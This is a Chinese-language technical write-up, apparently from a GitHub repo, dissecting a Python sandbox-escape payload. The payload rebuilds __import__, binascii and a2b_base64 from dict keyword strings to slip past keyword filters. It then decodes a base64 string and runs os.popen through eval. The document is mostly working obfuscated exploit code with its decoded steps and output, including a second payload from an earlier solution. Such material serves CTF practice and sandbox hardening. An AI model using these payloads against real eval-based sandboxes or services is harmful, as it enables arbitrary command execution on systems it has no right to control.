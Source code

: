 # Python 沙箱逃逸通解探索之路-解法三分析

## 前言

由于原文太长了，所以把四个解法分成独立的四个 md 文件，这样便于我修改。

解法二最后的 payload 是：

```python
CMD = [eval][eval(list(dict(b_o_o_l=1))[0][::2])(eval(list(dict(e_x_e_c=1))[0][::2])(eval(list(dict(b_y_t_e_s=1))[0][::2])([eval(list(dict(o_r_d=1))[0][::2])(j)for(i)in(list(eval(list(dict(o_p_e_n=1))[0][::2])(eval(list(dict(s_t_r=1))[0][::2])(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_a_s_e_6_4=1))[0][::2]))[23:-2])))[:-5]for(j)in(i)])))](eval(list(dict(b_6_4_d_e_c_o_d_e=1))[0][::2])(list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
```

这个答案直接执行可以，但是如果变成字符串放进 eval 函数再执行就会报错。所以需要探索解法三。





## 解法三 payload 分析

```python
eval(vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
```

- [vars()](https://www.runoob.com/python/python-func-vars.html)
- [locals()](https://www.runoob.com/python/python-func-locals.html)

### 导入 \_\_import\_\_ 函数

```python
dict(_1_1i1m1p1o1r1t1_1_=1) # {'_1_1i1m1p1o1r1t1_1_': 1}

list(dict(_1_1i1m1p1o1r1t1_1_=1))[0] # '_1_1i1m1p1o1r1t1_1_'

list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2] # '__import__'

eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2]) # <built-in function __import__>
```

eval 之后就导入了 import 函数，这个时候我们可以给这个函数传参，然后就可以导入指定的模块了。

### 导入 binascii 模块

```python
(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]) # 'binascii'

eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2])
# 等价于 __import__('binascii')，执行结果是 <module 'binascii' (built-in)>
```

### 获取 binascii.a2b_base64 函数

```python
vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))
```

执行完毕返回一个字典，里面包含了 binascii 模块含有的属性，包括一些函数等。

![image-20230508163854042](picture/image-20230508163854042.png)

然后我们从这个字典（假设字典的名称是 a）中获取到 `a2b_base64` 函数：

```python
[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]] # ['a2b_base64']

vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]] # 等价于 a['a2b_base64']，执行结果是 <built-in function a2b_base64>
```

### 执行 a2b_base64 函数

```python
list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]
# 'X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg'
```

所以：

```python
vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0])
# 等价于 a2b_base64('X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg')
```

执行完毕返回一个字符串：

![image-20230508164513833](picture/image-20230508164513833.png)

最后通过 eval 函数指向以上命令：

```python
eval(vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
# eval("__import__('os').popen('echo Hacked: `id`').read()")
```

![image-20230508164614760](picture/image-20230508164614760.png)

### eval 函数内执行

把解法三的 payload 变成字符串，放入 eval 函数试试：

![img](picture/16835360348741.png)

成功地执行命令！